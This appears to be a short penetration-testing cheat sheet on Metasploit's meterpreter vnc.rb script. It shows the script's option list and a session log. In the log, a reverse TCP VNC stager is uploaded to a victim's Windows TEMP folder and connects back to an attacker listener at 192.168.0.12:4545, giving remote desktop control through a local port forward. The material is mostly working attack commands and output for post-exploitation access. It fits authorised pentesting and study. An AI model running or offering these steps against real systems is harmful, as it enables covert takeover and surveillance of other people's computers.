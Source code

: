 In metasploit / meterpreter, the script `vnc.rb` allow you to drop an vnc executable on the victim computer that listen for new connection and automatically, reverse port forward this port (5900 by default) on the interface `127.0.0.1` of the attacker. So the attacker just have to connect via a vnc client to the address `127.0.0.1:5900`

> Once the connection is closed or interupt you have to re-run this script to connect again


### Usage
```
meterpreter > run vnc -h

OPTIONS:
    -c   Enable the VNC courtesy shell
    -D   Disable the automatic exploit/multi/handler (use with -r to accept on another system)
    -h   This help menu
    -i   Inject the vnc server into a new process's memory instead of building an exe
    -O   Disable binding the VNC proxy to localhost (open it to the network)
    -p   The port on the remote host where Metasploit is listening (default: 4545)
    -P   Executable to inject into (starts a new process).  Only useful with -i (default: notepad.exe)
    -r   The IP of a remote Metasploit listening for the connect back
    -t   Tunnel through the current session connection. (Will be slower)
    -v   The local port for the VNC proxy service (default: 5900)
    -V   Disable the automatic launch of the VNC client
```

### Exploitation

By default the script connect automatically to the vnc server, but I discourage that, since it use the default client which don't appeat to work in my case.
So to deactivate automatic client connection I use **-V** 
```
meterpreter > run vnc -V
[*] Creating a VNC reverse tcp stager: LHOST=192.168.0.12 LPORT=4545
[*] Running payload handler
[*] VNC stager executable 73802 bytes long
[*] Uploaded the VNC agent to C:\Windows\TEMP\faXPeF.exe (must be deleted manually)
[*] Executing the VNC agent with endpoint 192.168.0.12:4545...
meterpreter >
```

Then connect on my own, using `xtigervncviewer` on the address `127.0.0.1:5900`
